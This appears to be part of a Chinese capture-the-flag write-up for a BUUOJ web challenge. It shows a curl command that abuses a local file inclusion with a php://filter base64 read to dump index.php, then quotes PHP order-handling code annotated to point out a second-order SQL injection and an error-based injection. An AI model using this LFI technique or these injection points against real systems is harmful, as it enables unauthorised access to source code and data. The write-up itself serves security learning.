 LFI拿到项目源码

```
curl http://d045b903-f060-43e5-95e9-c9d77fd9c94d.node3.buuoj.cn/?file=php://filter/convert.base64-encode/resource=index.php | head -n 1 |base64 -d > index.php
```

可以看到这里有很明显的二次注入

```php
//confrim.php
    $user_name = $_POST["user_name"];
    $address = $_POST["address"];//直接没过滤
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if($fetch->num_rows>0) {
        $msg = $user_name."已提交订单";
    }else{
        $sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";
        $re = $db->prepare($sql);
        $re->bind_param("sss", $user_name, $address, $phone);
        $re = $re->execute();
        if(!$re) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单提交成功";
    }
//change.php
    $address = addslashes($_POST["address"]);//单引号转义 但是存入数据库的时候的时候存的还是普通单引号
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];//这里直接拼接$address和之前的$row['address'],存在二次注入
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);//可以利用报错注入
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
```
